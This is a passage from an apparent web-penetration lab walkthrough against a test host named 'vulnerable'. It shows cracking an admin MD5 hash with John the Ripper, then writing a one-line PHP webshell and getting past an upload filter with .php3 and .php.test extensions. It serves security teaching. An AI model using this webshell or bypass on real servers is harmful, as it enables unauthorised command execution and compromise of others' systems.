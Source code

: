 ```
```
$ ./john password --format=raw-md5  --wordlist=dico --rules
```

The following options are used:

* `password` tells john what file contains the password hash
* `--format=raw-md5` tells john that the password hash is in the raw-md5 format
* `--wordlist=dico` tells john to use the file `dico` as a dictionnary
* `--rules` tells john to try variations for each word provided

John outputs the number of hashs matching the format used:

```
Loaded 1 password hash (Raw MD5 [SSE2 16x4x2 (intr)])
```

This provides an indication that the correct format is used.

You can retrieve the password really quickly:

```
$ ./john password --format=raw-md5  --wordlist=dico --rules
Loaded 1 password hash (Raw MD5 [SSE2 16x4x2 (intr)])
P4ssw0rd         (admin)
```

### Uploading a Webshell and Code Execution

Once access to the administration page is obtained, the next goal is to find a way to execute commands on the operating system.

We can see that there is a file upload function allowing a user to upload a picture, we can use this functionality to try to upload a PHP script. This PHP script once uploaded on the server will give us a way to run PHP code and commands.

First we need to create a PHP script to run commands. Below is the source code of a simple and minimal webshell:

```
<?php
  system($_GET['cmd']);
?>
```

This script takes the content of the parameter cmd and executes it. It needs to be saved as a file with the extension .php, for example: `shell.php` can be used as a filename.

We can now use the upload functionality available at the page: [http://vulnerable/admin/new.php](http://vulnerable/admin/new.php) and try to upload this script.

We can see that the script has not been uploaded correctly on the server. The application prevent file with an extension `.php` to be uploaded. We can however try:

* `.php3` which will bypass a simple filter on `.php`
* `.php.test` which will bypass a simple filter on `.php` and Apache will still use `.php` since in this configuration it doesn't have an handler for `.test`

Now, we need to find where the PHP script, managing the upload put the file on the web server. We need to ensure that the file is directly available for web clients. We can visit the web page of the newly uploaded image to see where the `<img` tag is pointing to:

```
      <div class="content">
        <h2 class="title">Last picture: Test shell</h2>